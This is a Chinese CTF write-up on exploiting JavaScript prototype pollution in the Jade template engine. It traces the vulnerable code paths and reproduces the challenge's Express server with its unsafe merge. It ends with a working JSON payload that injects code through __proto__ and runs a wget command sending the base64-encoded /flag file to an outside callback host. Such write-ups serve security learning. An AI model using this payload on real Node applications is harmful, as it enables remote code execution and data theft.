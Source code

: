 ```yaml
---
title: pwnhub 被污染的Jade
date: 2019-12-30 11:12:03
tags: js
---
```


题目本身不难，但是比较麻烦的就是两点，一是没给代码，后面怎么merge全靠猜，二是题目的cache严重，中间很多测试都被别人干扰，第一天的下午及其严重，基本上开始很多测试都被别人带跑偏了...

下面我就来梳理一下我的正常思路...

<!--more-->

# 题目开始

首先打开题目是比较简单粗暴的模板渲染，再结合题目不难发现题目是node+jade

![image.png-31.6kB][1]

因为我打开题目已经是下午了，所以基本上打开题目就一直都是报错，大概长这样：

![image.png-79.7kB][2]

基本也没什么好猜了，直接能看出来就是js原型链污染

关于js原型链污染的细节这里就不赘述了，可以看下面两篇文章

 - [https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7](https://lorexxar.cn/2018/12/07/codingbreak-wp/#js%E7%89%B9%E6%80%A7)
 - [https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

顺着这样的思路就可以翻翻看jade的代码看看

# 污染jade

在之前文章中提到，我们可以通过污染object来影响js中没有设置的变量属性，首先我们就需要找一个没有被设置过但是却很重要的变量，形似与：

```
if(x.xxxxx){
    x.xxxxx
}
```

这样的代码在jade中非常多

首先顺着代码流程跟到`lib/index.js` 200行

![image.png-109.8kB][3]

 可以看到这里的body直接拼接进了代码，但是这里body是本身有值的，所以顺着跟下去到149行。

 ![image.png-44.7kB][4]

这里是我的第一个思路，通过控制self，然后污染globals，globals会在addwith中直接被拼接进代码中。

这也是为什么我反复吐槽题目没有给代码...因为这条路在我本地环境里是可以走通的，但是在远程你会喜获一个报错，而且我调试了一晚上也不知道怎么修复这个报错...

没办法，因为这里走不下去，所以只能将self设置为true，往下走别的路。

当我们设置为true时，我们能控制的只有js变量，然后我们逐渐跟下去。

往下跟到`lib/compile.js` 60行

![image.png-69.6kB][5]

然后跟入visit函数

![image.png-45.2kB][6]

到这里不难发现可以覆盖line参数，运气比较好的是，到这里就能执行了，事实上往别的路走还有很多能执行的地方。

到这里jade这部分基本已经完成了，剩下的就是在远程中如何执行。

# 回到远程

在成功执行命令之后我们可以拿到远程的代码

```
const express = require('express');
const path = require('path');

const app = express();
var router = express.Router();

app.set('views', path.join(__dirname, 'views'));
app.engine('jade', require('jade').__express);
app.set("view engine", "jade");

app.use(express.json()).use(express.urlencoded({
    extended: false
}));

const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}

router.get('/', (req, res, next) => {
    res.render('index', {
        title: 'HTML',
        name: ''
    });
});

router.post('/', (req, res, next) => {
    var body = JSON.parse(JSON.stringify(req.body));
    var copybody = clone(body)
    res.render('index', {
        title: 'HTML',
        name: copybody.name || ''
    });
});

app.use('/', router)

app.listen(3000, () => console.log('Example app listening on port http://127.0.0.1:3000 !'))
```

不难发现出题人强行写了一个merge，把req.body和`{}`合并导致了原型链污染，所以传递的对象不能是name，这也是坑了我开始的一大个问题。

然后就是覆盖globals会导致谜一样的错误

![image.png-82.2kB][7]

最后也没能找到原因，使用第二条路就比较简单了，直接可以执行

```
{"__proto__":{"self":true,"line":"0, \"\" ));global.process.mainModule.constructor._load('child_process').exec(`wget msocp8.ceye.io?$(cat /flag|base64)`, function(){} );jade_debug.unshift(new jade.DebugItem( 0","filename":"test","title":"test","name":"test"}}
```

![image.png-368.3kB][8]


# 写在最后

其实回顾题目还挺有意思的，只是可惜，jade的官方的范例中没有这种merge的操作，但题目又不给出代码，导致本来调试完成的题目成了远程瞎猜了，不过运气比较好的是，这题的利用不太复杂，如果特别复杂的话可能再配合远程cache这题就没法做了...




[1]: http://static.zybuluo.com/LoRexxar/8wc6ywckycmqv28jdjxoi9vj/image.png
[2]: http://static.zybuluo.com/LoRexxar/ywtm8z22g8a5zurlh6wb540u/image.png
[3]: http://static.zybuluo.com/LoRexxar/huxieo13n6vdw6cwwkacff9b/image.png
[4]: http://static.zybuluo.com/LoRexxar/aw9blbi9xf4f10ivgcodj0z6/image.png
[5]: http://static.zybuluo.com/LoRexxar/297sys9curah7u5md4ny9g2y/image.png
[6]: http://static.zybuluo.com/LoRexxar/jgn2kebq12an65iz9dhzm6lm/image.png
[7]: http://static.zybuluo.com/LoRexxar/aketq6lib1ajm6vb0q7ttijk/image.png
[8]: http://static.zybuluo.com/LoRexxar/hqmbmrfm57gxpf8koh6ks11j/image.png